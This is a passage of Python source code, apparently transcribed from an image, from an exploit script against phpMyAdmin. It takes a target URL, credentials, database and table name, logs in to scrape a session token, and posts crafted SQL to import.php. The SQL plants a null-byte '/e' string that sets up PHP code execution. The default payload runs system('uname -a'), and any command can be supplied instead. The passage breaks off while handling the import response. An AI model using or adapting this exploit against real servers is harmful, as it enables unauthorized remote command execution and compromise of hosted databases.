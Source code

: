 ```python
    parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
    arguments = parser.parse_args()
    url_to_pma = arguments.url
    uname = arguments.user
    upass = arguments.pwd
    if arguments.dbs:
        db = arguments.dbs
    else:
        db = "test"
    token = False
    custom_table = False
    if arguments.table:
        custom_table = True
        table = arguments.table
    else:
        table = "prgpwn"
    if arguments.cmd:
        payload = arguments.cmd
    else:
        payload = "system('uname -a');"

    size = 32
    s = requests.Session()
    # you can manually add proxy support it's very simple ;)
    # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
    s.verify = False
    sql = '''CREATE TABLE `{0}` (
      `first` varchar(10) CHARACTER SET utf8 NOT NULL
    ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
    INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
    '''.format(table)

    # get_token
    resp = s.post(url_to_pma + "/?lang=en", dict(
        pma_username=uname,
        pma_password=upass
    ))
    if resp.status_code is 200:
        token_place = resp.text.find("token=") + 6
        token = resp.text[token_place:token_place + 32]
    if token is False:
        print("Cannot get valid authorization token.")
        sys.exit(1)

    if custom_table is False:
        data = {
            "is_js_confirmed": "0",
            "db": db,
            "token": token,
            "pos": "0",
            "sql_query": sql,
            "sql_delimiter": ";",
            "show_query": "0",
            "fk_checks": "0",
            "SQL": "Go",
            "ajax_request": "true",
            "ajax_page_request": "true",
        }
        resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
        if resp.status_code == 200:
            if "success" in resp.json():
                if resp.json()["success"] is False:
```